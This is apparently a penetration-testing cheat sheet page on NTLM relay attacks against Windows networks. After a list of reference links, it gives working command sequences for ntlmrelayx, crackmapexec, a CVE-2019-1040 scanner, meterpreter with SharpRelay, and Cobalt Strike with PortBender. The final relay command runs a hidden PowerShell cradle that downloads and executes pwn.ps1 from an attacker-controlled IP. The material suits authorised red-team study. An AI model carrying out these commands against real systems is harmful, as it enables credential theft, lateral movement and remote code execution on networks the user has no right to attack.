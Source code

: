 # NTLM Relay

* [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
* [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
* [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
* [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay)
* [https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)
* [https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay](https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay)
* [https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html](https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html)

{% file src="/.gitbook/assets/Lateral Movement using Credentials Relaying (taso_x).pdf" %}

Generate relay list with cme and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```

Relay & catch hashes (via [multi-relay](https://www.thehacker.recipes/ad/movement/ntlm/relay#tips-and-tricks)):

```
$ sudo smbserver.py -smb2support -port 8445 share `pwd`
$ sudo ntlmrelayx.py -smb2support --no-http-server --no-wcf-server -tf targets.txt
$ cat targets.txt
smb://10.10.13.37
smb://127.0.0.1:8445
```




## CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```




## Relaying on Windows



### meterpreter + SharpRelay

* [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)
* [https://github.com/pkb1s/SharpRelay](https://github.com/pkb1s/SharpRelay)

Divert incoming SMB traffic from Victim to Attacker's local 445 port through an elevated meterpreter session and relay it to Target via MSF SOCKS server.

1\. Add a static route to the Target through the 1st meterpreter session:

```
meterpreter > route add 192.168.1.11/32 1
```

2\. Start MSF SOCKS server:

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

3\. Forward a reverse port 8445 on Victim to local port 445 on Attacker and start diverting incoming SMB traffic on Victim to Victim's local 8445 port:

```
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > cd C:\\Windows\\System32\\drivers
meterpreter > upload /home/snovvcrash/www/WinDivert64.sys
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/SharpRelay.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS relaysvc "C:\Windows\System32\drivers\WinDivert64.sys" 445 8445
msf post(windows/manage/execute_dotnet_assembly) > run
```

4\. Relay the diverted traffic to Target through SOCKS:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support
```

{% hint style="warning" %}
When ran once, the driver must be unloaded or the host rebooted before trying again. The fake service can be deleted with a PowerShell command:

```
PS > (sc.exe stop relaysvc) -and (sc.exe delete relaysvc)
```
{% endhint %}



### beacon + PortBender

- [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
- [https://rastamouse.me/ntlm-relaying-via-cobalt-strike/](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

Set SOCKS server & port forwarding, upload WinDivert driver and configure redirection with PortBender:

```
beacon> socks 1080
beacon> rportfwd 8445 127.0.0.1 445
beacon> cd C:\Windows\System32\drivers
beacon> upload /home/snovvcrash/www/WinDivert64.sys
beacon> PortBender redirect 445 8445
```

Relay the planet:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex(new-object net.webclient).downloadstring(\"http://10.10.13.37:8080/pwn.ps1\")"'
```

Stop PortBender:

```
beacon> jobs
beacon> jobkill <JID>
beacon> kill <PID>
```
